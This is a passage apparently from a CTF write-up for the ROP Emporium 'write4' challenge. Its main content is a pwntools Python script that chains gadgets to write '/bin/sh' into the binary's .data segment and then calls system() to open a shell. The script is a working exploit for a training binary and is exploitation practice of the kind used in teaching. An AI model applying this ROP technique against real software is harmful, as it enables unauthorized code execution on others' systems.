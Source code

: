 ```python
gdbscript = '''
break *0x{exe.symbols.main:x}
break *0x400890
break *0x400807
continue
'''.format(**locals())

def arbitrary_write(address, data):
    #0x400890: pop r14; pop r15; ret;
    #0x400820: mov qword ptr [r14], r15; ret;
    # pop reg
    # mov to_reg, from_reg
    # address > data > pop r14; pop r15; mov
    pop_regs = 0x400890
    mov_regs = 0x400820
    rop = p64(pop_regs)
    rop += p64(address)
    rop += data
    rop += p64(mov_regs)
    return rop

# [0x00400650]> iS
# Nm Paddr Size Vaddr Memsz Perms Name
# 25 0x00001050 16 0x00601050 16 -rw- .data

#0x400893: pop rdi; ret;

system = 0x4005e0
data_segment = 0x601050
pop_rdi = 0x400893

junk = 'A'*40

payload = junk
payload += arbitrary_write(data_segment,"/bin/sh\x00")
payload += p64(pop_rdi)
payload += p64(data_segment)
payload += p64(system)

io = start()
io.recvuntil('> ')
io.sendline(payload)
io.interactive()
```

![Flag](assets/images/posts/2019/12/ropemporium-3-write4/image-2.png)

GitHub: [https://github.com/Securitybits-io/ROPEmporium](https://github.com/Securitybits-io/ROPEmporium)
